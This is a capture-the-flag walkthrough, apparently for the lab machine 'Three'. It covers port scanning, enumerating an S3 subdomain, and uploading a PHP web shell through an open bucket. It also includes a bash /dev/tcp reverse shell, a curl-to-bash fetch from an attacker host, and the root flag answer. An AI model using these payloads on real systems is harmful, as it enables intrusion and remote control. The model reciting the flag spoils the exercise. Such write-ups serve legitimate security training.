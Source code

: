# Three

## Initial Scan

```bash
nmap -sV -T4 -v 10.129.232.222
Starting Nmap 7.80 ( https://nmap.org ) at 2022-09-16 18:35 EDT
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 18:35
Scanning 10.129.232.222 [2 ports]
Completed Ping Scan at 18:35, 0.05s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 18:35
Completed Parallel DNS resolution of 1 host. at 18:35, 0.08s elapsed
Initiating Connect Scan at 18:35
Scanning 10.129.232.222 [1000 ports]
Discovered open port 22/tcp on 10.129.232.222
Discovered open port 80/tcp on 10.129.232.222
Completed Connect Scan at 18:35, 0.71s elapsed (1000 total ports)
Initiating Service scan at 18:35
Scanning 2 services on 10.129.232.222
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 18:35 (0:00:06 remaining)
Completed Service scan at 18:35, 6.11s elapsed (2 services on 1 host)
NSE: Script scanning 10.129.232.222.
Initiating NSE at 18:35
Completed NSE at 18:35, 0.26s elapsed
Initiating NSE at 18:35
Completed NSE at 18:35, 0.20s elapsed
Nmap scan report for 10.129.232.222
Host is up (0.045s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.98 seconds
```

## Task 1

#### How many TCP ports are open?

Found within the initial scan

Answer: 2

## Task 2

#### What is the domain of the email address provided in the "Contact" section of the website?

We see port 80 open on the target, when browsing the website of the target, going to Contact we see the email address.

<figure><img src="../../../../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>

Answer: thetoppers.htb

## Task 3

#### In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?

General knowledge. Using the Host file on various systems can be used in lieu of a DNS server if they are hosted internally.

Answer: /etc/hosts

## Task 4

#### Which sub-domain is discovered during further enumeration?

After editing the host file to map the IP to the domain, we can use Gobuster to help enumerate the site.

<figure><img src="../../../../.gitbook/assets/image (102).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Answer: s3.thetoppers.htb

## Task 5

#### Which service is running on the discovered sub-domain?

Since it's s3 by amazon, also if we google: s3 subdomain

Answer: Amazon S3

## Task 6

#### Which command line utility can be used to interact with the service running on the discovered sub-domain?

Knowing it's amazon S3, what can we use to interact with it? Googling "Interact with Amazon S3" will give us our result

Answer: awscli

## Task 7

#### Which command is used to set up the AWS CLI installation?

`aws help` will give us our answer.

Answer: aws configure

## Task 8

#### What is the command used by the above utility to list all of the S3 buckets?

After configuring aws

<figure><img src="../../../../.gitbook/assets/image (108).png" alt=""><figcaption></figcaption></figure>

we can look at the S3 documentation.

Answer: aws s3 ls

## Task 9

#### This server is configured to run files written in what web scripting language?

Looking at the buckets with: `aws --endpoint=http://s3.thetoppers.htb s3 ls`

<figure><img src="../../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

we can go into this further: `aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb`

<figure><img src="../../../../.gitbook/assets/image (4) (3).png" alt=""><figcaption></figcaption></figure>

With this basic info we can see this would use PHP

Answer: PHP

## Task 10

#### Submit Root Flag

So knowing it runs on PHP and with Amazons S3, we are going to work on getting a remote shell. Googling "get shell with php" I see we can use the `system()` function which takes the URL parameter `cmd` as an input and executes it as a system command.

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

With the shell file created, we can use `cp` to get the file onto the server and run CMD.

<figure><img src="../../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Confirm that our shell is uploaded by navigating to http://thetoppers.htb/shell.php.

We are met with: `uid=33(www-data) gid=33(www-data) groups=33(www-data)` the output of the OS command `id`.

Now lets make a revershell script

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.119/1337 0>&1
```

<figure><img src="../../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Going to open a netcat shell with `nc -nvlp 1337`&#x20;

<figure><img src="../../../../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

Now open a temp webserver to pull our script from: `python3 -m http.server 8081`&#x20;

<figure><img src="../../../../.gitbook/assets/image (11) (3).png" alt=""><figcaption></figcaption></figure>

Now we can use curl to get our script onto the server and executing it:

http://thetoppers.htb/shell.php?cmd=curl%20%3C10.10.14.119%3E:8081/shell.sh|bash

We now can see our reverse shell:

<figure><img src="../../../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

Now we can locate the flag and cat it's contents

<figure><img src="../../../../.gitbook/assets/image (106).png" alt=""><figcaption></figcaption></figure>

Answer: a980d99281a28d638ac68b9bf9453c2b
